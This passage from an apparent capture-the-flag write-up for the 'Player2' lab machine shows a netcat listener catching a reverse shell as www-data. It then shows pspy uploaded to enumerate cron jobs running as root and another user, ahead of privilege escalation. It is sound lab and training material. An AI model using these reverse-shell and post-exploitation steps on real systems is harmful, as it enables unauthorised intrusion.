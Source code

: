 Then a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.170.
Ncat: Connection from 10.10.10.170:41146.
bash: cannot set terminal process group (1152): Inappropriate ioctl for device
bash: no job control in this shell
www-data@player2:/var/www/product/protobs$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Priv: www-data –> observer

### Enumeration

#### pspy

After a bunch of normal enumeration that didn’t spark anything for me, I upload [pspy](https://github.com/DominicBreuker/pspy) to look for crons. There’s definitely a bunch of stuff that runs every minute:

```

2020/01/23 11:27:01 CMD: UID=0    PID=2459   | sudo -u egre55 -s /bin/sh -c /usr/bin/php -S 0.0.0.0:8545 /var/www/main/server.php                                                                       
2020/01/23 11:27:01 CMD: UID=0    PID=2458   | /usr/bin/python /root/connection.py 
2020/01/23 11:27:01 CMD: UID=0    PID=2457   | /bin/dash -p -c /usr/bin/python /root/broadcast.py 
2020/01/23 11:27:01 CMD: UID=0    PID=2456   | /bin/dash -p -c sudo -u egre55 -s /bin/sh -c "/usr/bin/php -S 0.0.0.0:8545 /var/www/main/server.php" 
2020/01/23 11:27:01 CMD: UID=0    PID=2455   | /bin/dash -p -c /usr/bin/python /root/connection.py 
2020/01/23 11:27:01 CMD: UID=0    PID=2454   | /usr/sbin/CRON -f 
2020/01/23 11:27:01 CMD: UID=0    PID=2453   | /usr/sbin/CRON -f 
2020/01/23 11:27:01 CMD: UID=0    PID=2452   | /usr/sbin/CRON -f 
2020/01/23 11:27:01 CMD: UID=0    PID=2460   | /usr/bin/python /root/broadcast.py 
2020/01/23 11:27:01 CMD: UID=1001 PID=2461   | /bin/dash -p -c \/bin\/sh -c \/usr\/bin\/php\ -S\ 0\.0\.0\.0\:8545\ \/var\/www\/main\/server\.php 
2020/01/23 11:27:01 CMD: UID=1001 PID=2462   | /bin/dash -p -c \/bin\/sh -c \/usr\/bin\/php\ -S\ 0\.0\.0\.0\:8545\ \/var\/www\/main\/server\.php 
2020/01/23 11:27:01 CMD: UID=1001 PID=2463   | /usr/bin/php -S 0.0.0.0:8545 /var/www/main/server.php 
2020/01/23 11:27:01 CMD: UID=0    PID=2464   | /usr/bin/python /root/broadcast.py 
2020/01/23 11:27:01 CMD: UID=0    PID=2465   | 

```

